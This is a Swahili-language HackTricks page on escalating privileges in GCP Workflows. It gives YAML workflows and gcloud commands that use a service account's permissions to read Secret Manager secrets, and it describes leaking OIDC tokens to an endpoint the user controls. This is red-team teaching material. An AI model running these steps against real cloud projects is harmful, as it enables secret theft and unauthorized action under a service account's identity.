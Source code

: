 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Taarifa za Msingi:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Kama ninavyofahamu si rahisi kupata shell yenye ufikiaji wa metadata endpoint inayoshikilia akreditif za SA ya SA iliyoshambuliwa kwenye Workflow. Hata hivyo, inawezekana kutumia vibaya ruhusa za SA kwa kuongeza vitendo vya kutekeleza ndani ya Workflow.

Inawezekana kupata nyaraka za waunganishi. Kwa mfano, hii ni [**ukurasa wa waunganishi wa Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Katika upande wa bar, inawezekana kupata waunganishi wengine kadhaa.

Na hapa unaweza kupata mfano wa waunganishi unaochapisha siri:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Sasisha kutoka CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ikiwa huna ufikiaji wa wavuti, inawezekana kuanzisha na kuona utekelezaji wa Workflow kwa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Unaweza pia kuangalia matokeo ya utekelezaji wa awali kutafuta taarifa nyeti
{% endhint %}

Kumbuka kwamba hata kama unapata kosa kama `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` kwa sababu huna ruhusa hiyo, workflow imeundwa.

### Leak OIDC token (na OAuth?)

Kulingana na [**nyaraka**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) inawezekana kutumia hatua za workflow ambazo zitatumia ombi la HTTP na token ya OAuth au OIDC. Hata hivyo, kama ilivyo katika kesi ya [Cloud Scheduler](gcp-cloudscheduler-privesc.md), ombi la HTTP lenye token ya Oauth lazima liwe kwa mwenyeji `.googleapis.com`.

{% hint style="danger" %}
Kwa hivyo, ni **uwezekano wa kuvuja token ya OIDC kwa kuashiria mwisho wa HTTP** unaodhibitiwa na mtumiaji lakini ili kuvuja token ya **OAuth** unahitaji **kupita** kwa ulinzi huo. Hata hivyo, bado unaweza **kuwasiliana na api yoyote ya GCP ili kufanya vitendo kwa niaba ya SA** ukitumia ama viunganishi au maombi ya HTTP yenye token ya OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Kwa ruhusa hii badala ya `workflows.workflows.create` inawezekana kuboresha workflow iliyopo tayari na kufanya mashambulizi sawa.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
